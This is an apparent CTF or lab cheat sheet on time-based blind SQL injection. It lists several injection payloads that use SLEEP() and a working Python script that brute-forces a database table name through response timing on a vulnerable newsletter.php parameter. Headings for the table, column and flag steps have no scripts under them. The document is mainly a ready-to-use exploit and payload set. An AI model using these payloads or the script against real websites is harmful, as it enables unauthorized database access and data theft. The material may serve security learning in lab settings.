


---
---

# IML - SQL Injection – Time-Based Blind

[https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/MySQL%20-%20Time%20Based%20SQLi)

**<u>To test for time-based sqli:</u>**
Example:
```bash
http://domain.com/index.php?id=15'XOR(if(now()=sysdate(),sleep(5\*5),0))OR'
```
or use:
**' OR SLEEP(5) AND '1'='1**
or
**'AND (SELECT \* FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe**

If the websites hangs for a bit, it means it is vulnerable to this kind of attack





- Edit script (below) with parameters


DB_name (script below)




Table_name (script below)


Column_name(script below)


Find flag


**Ignore capitals and weird characters**


Make sure to put the queries in their own ( )

**<u>Time-Based Bruteforce Database name script</u>**


**<u>Time-Based Bruteforce Table name script</u>**


**<u>Time-Based Bruteforce Column name script</u>**


**<u>Find flag</u>**


**<u>Script:</u>**

```python
import requests
import sys
import time

# Send the payload to the vulnerable parameter on the target host
# If it takes 5 seconds or longer to get a reply, return True
def send_payload(ip, payload):
    start = time.time()
    r = requests.get(
        "http://%s/newsletter.php?name=test&email=test' OR IF (%s, sleep(5), 'NO') AND '1'='1'" % (ip, payload)
    )
    end = time.time()
    return (end - start) >= 5

# Brute-force the length of the database table name
# Then iterate over characters to brute-force the table name
def brute_db(ip):
    length = 0
    for i in range(0, 100):
        if send_payload(ip, "LENGTH((select table_name from information_schema.tables where table_schema=database()))='%d'" % i):
            length = i
            break

    print("Length: %d" % length)
    sys.stdout.write("Dumping: ")
    sys.stdout.flush()

    db_name = ""
    for i in range(1, length + 1):
        for j in range(96, 123):  # ASCII a-z
            if send_payload(ip, "SUBSTRING((select table_name from information_schema.tables where table_schema=database()),%d,1)='%s'" % (i, chr(j))):
                db_name += chr(j)
                sys.stdout.write(chr(j))
                sys.stdout.flush()
                break
    sys.stdout.write("\n")
    sys.stdout.flush()
    return db_name

def main():
    if len(sys.argv) != 2:
        print("Usage: python %s <ip>" % sys.argv[0])
        sys.exit(1)

    ip = sys.argv[1]
    db_name = brute_db(ip)
    print("DB name: %s" % db_name)

if __name__ == "__main__":
    main()


```